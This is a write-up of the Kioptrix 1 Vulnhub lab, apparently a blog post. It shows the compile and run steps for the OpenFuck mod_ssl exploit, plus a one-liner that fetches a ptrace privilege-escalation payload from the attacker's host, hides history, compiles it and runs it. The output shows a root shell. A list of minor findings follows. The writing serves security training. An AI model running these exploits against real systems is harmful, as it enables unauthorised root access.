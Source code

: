 ```yaml
---
layout: post
title: Vulnhub - Kioptrix 1
---
```


## Setup
DHCP Server assigns VM the IP: 10.10.10.4
```
$ git clone https://github.com/heltonWernik/OpenLuck /opt/OpenLuck
$ cd $_
$ mv OpenFuck.c LuckLocal.c # for courtesy ;)
$ gedit LuckLocal.c
```
Minor edits to LuckLocal.c, which you can see in my [OpenLuckLocal repo](https://github.com/zacheller/kioptrix_1_scripts)
```
$ apt install libc6-dev-i386
$ gcc LuckLocal.c -o open -lcrypto
$ wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
$ gedit ptrace-kmod.c # needed to edit some includes to run on Kioptrix
```
Minor edits to ptrace-kmod.c, which you can see in my [Kioptrix 1 scripts repo](https://github.com/zacheller/kioptrix_1_scripts).

## Exploitation
```
$ python -m SimpleHTTPServer &

$ ./open 0x6b 10.10.10.4 -c 60

bash-2.05$ history
    1  unset HISTFILE; cd /tmp; wget http://10.10.10.2:8000/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
```
I fixed the ptrace-kmod.c file here by lots of attempts to compile on the remote machine. Now, simply the ./open will get root.
```
bash-2.05$ !1
unset HISTFILE; cd /tmp; wget http://10.10.10.2:8000/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
--23:57:20--  http://10.10.10.2:8000/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to 10.10.10.2:8000... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,998 [text/plain]

    0K ...                                                   100% @   3.81 MB/s

23:57:20 (3.81 MB/s) - `ptrace-kmod.c' saved [3998/3998]

[+] Attached to 1683
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
```
We have a shell, but do we have root?
``` bash
whoami
root
cd /var/mail/
cat root
```
Solved:
```
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
        by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
        for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...

From root  Fri Jan 24 20:08:43 2020
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 00P18hU01043
        for root; Fri, 24 Jan 2020 20:08:43 -0500
Date: Fri, 24 Jan 2020 20:08:43 -0500
From: root <root@kioptrix.level1>
Message-Id: <202001250108.00P18hU01043@kioptrix.level1>
To: root@kioptrix.level1
Subject: LogWatch for kioptrix.level1



 ################## LogWatch 2.1.1 Begin ##################### 


 ###################### LogWatch End ######################### 

From root  Mon Jan cat root
27 23:27:06 2020
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 00S4R6f01127
        for root; Mon, 27 Jan 2020 23:27:06 -0500
Date: Mon, 27 Jan 2020 23:27:06 -0500
From: root <root@kioptrix.level1>
Message-Id: <202001280427.00S4R6f01127@kioptrix.level1>
To: root@kioptrix.level1
Subject: LogWatch for kioptrix.level1



 ################## LogWatch 2.1.1 Begin ##################### 


 ###################### LogWatch End ######################### 

From root  Thu Jan 30 21:15:34 2020
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 00V2FYk01102
        for root; Thu, 30 Jan 2020 21:15:34 -0500
Date: Thu, 30 Jan 2020 21:15:34 -0500
From: root <root@kioptrix.level1>
Message-Id: <202001310215.00V2FYk01102@kioptrix.level1>
To: root@kioptrix.level1
Subject: LogWatch for kioptrix.level1



 ################## LogWatch 2.1.1 Begin ##################### 


 ###################### LogWatch End #######################cat root
## 

From root  Thu Jan 30 21:15:43 2020
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 00V2Fhw01285
        for root; Thu, 30 Jan 2020 21:15:43 -0500
Date: Thu, 30 Jan 2020 21:15:43 -0500
Message-Id: <202001310215.00V2Fhw01285@kioptrix.level1>
From: root@kioptrix.level1 (Anacron)
To: root@kioptrix.level1
Subject: Anacron job 'cron.daily'

/etc/cron.daily/00webalizer:

Warning: Truncating oversized request field
[... skip ...]
Warning: Truncating oversized request field [36608]
Warning: Truncating oversized request field [36609]
```

## Vulnerabilities
### Default Web Page (Low)
![Default Web Page]({{ site.baseurl }}/images/vhub/kioptrix/default.png)
### Server Header Info Disclosure (Low)
ETag is an information disclosure.
![Server Header]({{ site.baseurl }}/images/vhub/kioptrix/header.png)

### Default 404 Info Disclosure (Low)
![Default 404]({{ site.baseurl }}/images/vhub/kioptrix/404.png)
### Weak Ciphers
```
$ nmap --script=ssl-enum-ciphers -p 443 10.10.10.4
```
![Weak Ciphers]({{ site.baseurl }}/images/vhub/kioptrix/weak_ciphers.png)


